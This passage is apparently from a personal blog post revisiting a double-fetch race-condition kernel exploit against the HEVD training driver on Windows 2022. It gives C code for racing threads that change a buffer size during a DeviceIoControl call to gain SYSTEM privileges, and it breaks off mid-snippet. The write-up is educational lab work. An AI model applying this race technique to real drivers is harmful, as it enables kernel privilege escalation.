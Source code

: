 [Home](https://plackyhacker.github.io)

# Revisiting the HEVD Double-fetch on Windows 2022
       
# Introduction

I posted my [first attempt](https://plackyhacker.github.io/kernel/race) at doing the HEVD double fetch exploit for Windows 2022. Although I managed to get a privileged shell it was a very messy implementation.

The shell that the exploit was running in basically locked up and was pretty useless. The exploit spawned a new shell which set there waiting to receive the privileged `SYSTEM` token to elevate privileges. This was very unsatisfactory!

A few months have passed since then and I like to think I have progressed a little bit since then so I deceided to revisit this vulnerability and implement a more satisfactory exploit.

I won't re-explain the race condition and the double fetch bug (you can read about that [here](https://plackyhacker.github.io/kernel/race)), instead I will cover the exploit from a high-level explaining my logic, and the decisions I made.

**Note:** I will post the entrie exploit at the bottom of the article.

## Winning the Race - Revisited

I decided to revisit the race condition and made some adjustments to my code. In the previous exploit it would sometimes take up to 30 minutes to trigger the bug, I'm a pretty patient man but that was a pain in the ass!

Here are the snippets of code:

```c
// ...

struct UserData {
    LPVOID pBuffer;
    size_t sizeOfData;
};

// global variables
UserData userData;
char* userBuffer;
HANDLE hDriver;

//... 

// this is the function trying to win the race
DWORD WINAPI ChangeStruct(void* args)
{
    while (!raceWon)
    {
        userData.sizeOfData = 0x828;
        Sleep(10);
    }
    return NULL;
}

// this is the function sending the initial IOCTL
DWORD WINAPI SendIOCTL(void* args)
{
    userData.pBuffer = userBuffer;
    userData.sizeOfData = 0x800;
    BOOL status = DeviceIoControl(hDriver,
        0x222037, (LPVOID)&userData, sizeof(userData), NULL, 0, NULL, NULL);
```